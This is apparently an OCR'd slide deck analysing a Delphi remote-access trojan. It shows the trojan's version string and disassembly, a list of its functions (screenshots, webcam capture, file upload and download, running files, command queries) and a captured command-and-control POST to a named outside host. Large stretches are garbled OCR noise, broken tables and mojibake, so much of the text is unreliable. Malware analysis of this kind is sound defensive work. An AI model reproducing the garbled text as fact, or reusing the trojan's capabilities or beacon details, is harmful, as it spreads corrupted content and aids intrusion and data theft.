 ### The malware: internal name and version

nvew d øde moter din viss ifæri mind i univ isifil i ukje ifrig (jørfej i virje 1*1 →‎ ‎ E>hnÉN ìEº ® 0=♣ (eW½± δδ_^[YY] | +iriCHO==+ ■01ª=H Φ§> i=j j j iKD|XAN i|Φ3@· j j j iK@|hAN i|02?·htAN iE ï|0]>· ìE=Ph¼EN uªhªÆΝ ìE∞│♥ Φº+± ïE∞ï╬3πΦτό ïƒΦ�ú± ìEΣΦΗ: μΣ s@hêÆΜ η=ΑΝ ΙΕΣ| • Ο Φώω |Θο-+ δδ ^[ίο] - 0 1 נורני 1 ₪ 1 ₪ ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 ₪ 1 1 ₪ 1 1 ₪ 1 1 ₪ 1 ÌU=ï├ïß QLIE═║PöN Φél± u→ï¼ΟΊ± hØս ΦGR≥ ï├Φ4 δ¶ϊ|ΦCí± Vh╨ÅΝ ï¦ΦεΙ≤ 3-ΣΥ § Φςν iPON IF® <+@ df@ ►B@ af@ at@ at@ #10 \u0 \u0 \u0 \u0 \u0 \u0 \u0 \ \u0 1 \ \ \ \

![](_page_10_Picture_2.jpeg)

### The malware: internal name and version

| ANEW A ROG ZIP ON OR ON 22 T 4 MATEU I OKA I OKA- I AT TO OMI-AN I MI-i I-1 |  |  |
| --- | --- | --- |
| ¼Ó ï Øæ÷ Pj j ïƒð½-> Øæ¯≤ PØr ± ï¹·ï¦ï© QDIEº®½- u° w@h æΝ 죺║♥ û┐± ë►hnÉN ìEº  ● ++iniCH0=  ± █01"={  φ§> ï=j j j їKD  XEN ї ф↕@. ј ј ј їК@  ћ/8Ν ї Φ2? ht/AN iE |  |  |
| CODE:004E1865 | lea | eax, [ebp+var_C] |
| CODE : 004E1868 | mov | edx, offset   str 3 1 1.Text |
| CODE : 004E186D | call | @System(@@LStrCat$ggrv |
| CODE:004E1872 | mov | eax   ehn+var 4    Str 3         QQ 0rrFFFFFF |
| CODE:004E1875 | mov | edx, [ebp+var_C] |
| CODE:004E1878 | call | dd 5 @System@@LStrAsg$c |
| CODE:004E187D eax, eax | xor | db '3.1.1',0 |
| FöN If@ <{@ `d® �d® ►E@ αf® αt® ۩۞۩ ׳™Թ ΦτԹ `Α = Α `x® �x® Φ=@ ٢٠٠٥ Ι ׳� ג |  |  |

### The malware: functionality

#004E5194 TForm1.FormCreate #004E5208 TForm1.Timer1Timer #004E58C0 TForm1.CheckServerTimer #004E3F88 TForm1.GetPrintScreen #004E4060 TForm1.PrintScreen off #004E408C TForm1.GetCamScreen #004E49D8 TForm1.GetDirList #004E4AC0 TForm1.DirList off #004E4AEC TForm1.GetDownLoad #004E4BEC TForm1.DownLoad off #004E4C18 TForm1.GetDownLoad2 #004E4D18 TForm1.DownLoad2 off #004E4D44 TForm1.GetUpLoad #004E4E2C TForm1.UpLoad off #004E4E58 TForm1.GetRunFile #004E4F40 TForm1.RunFile off #004E4F6C TForm1.GetCMDQuery #004E5054 TForm1.CMDQuery off #004E5080 TForm1.GetUpLoadFiles #004E5168 TForm1.UpLoadFiles off #004E3BF0 TForm1.DelTmp #004E608C TForm1.Timer2Timer

![](_page_12_Picture_2.jpeg)

### The malware: network communication

POST /include/systm.php HTTP/1.0 Connection: keep-alive Content-Type: application/x-www-form-urlencoded Content-Length: 146 Host: prom3.biz.ua Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Encoding: identity User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:23.0) Gecko/20100101 Firefox/23.0
